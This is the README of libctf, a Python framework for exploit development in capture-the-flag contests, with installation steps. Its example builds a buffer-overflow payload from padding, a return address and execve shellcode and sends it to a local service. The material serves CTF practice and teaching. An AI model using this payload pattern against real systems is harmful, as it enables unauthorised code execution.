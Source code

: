 # Introduction

Libctf is a CTF framework written by meta of the Neg9 CTF team. The framework is a collection of tools and python libraries to simplify exploit development and many of the other tasks frequently performed during a CTF.

# Example

	from libctf import *
	shelldb = ShellcodeDB()
	print shelldb.list()
	shellcode = shelldb.get('linux x86 execve 1')
	sock = Sock('localhost',9090)
	payload = 'A'*100 + pack32(0x11223344) + shellcode 
	sock.send(payload)
	sock.interact()

# Installation

To install to your home directory (~/.local/lib/python2.7/site-packages/):

	python setup.py install --user

To install for all users (/usr/local/lib/python2.7/dist-packages/):
	
	sudo python setup.py install





